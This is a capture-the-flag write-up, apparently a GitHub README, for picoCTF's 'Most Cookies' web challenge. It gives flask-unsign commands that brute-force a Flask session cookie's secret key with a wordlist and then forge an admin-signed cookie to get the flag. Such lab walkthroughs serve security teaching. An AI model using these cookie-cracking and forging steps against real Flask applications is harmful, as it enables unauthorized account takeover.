

# Web Exploitation --> Most Cookies.
This is [Link-Lab](https://play.picoctf.org/practice/challenge/177?category=1&page=1&solved=1).
# Solve Most Cookies.
1- Download `Server.py` and open url --> `http://mercury.picoctf.net:53700/`, then trace the python file and check the web site.
 

 

2- Try check the value session, and try search about `flask cookie ctf` --> `https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask`.
 

 

3- Try copy and past the `session` until decoded `base64` --> `echo session | base64 -d`.
 

 

4- Try change the session cookie --> `flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y5bjCA.msY_zZLgWQ3KjZI9s7dI1VFC7y8' --wordlist .\common.txt --no-literal-eval` --> to know the type of cookie `peanut butter`.
 

 

5- Try signed as `admin` --> `flask-unsign --sign --cookie '{"very_auth":"admin"}' 'peanut butter'` to get the his session and copy past in `session value`.
 

 

6- finally, copy past the flag to solve it.
 

 

7- OR run the script `python3 solve.py session`, and copy past the session --> solved the lab.
 

 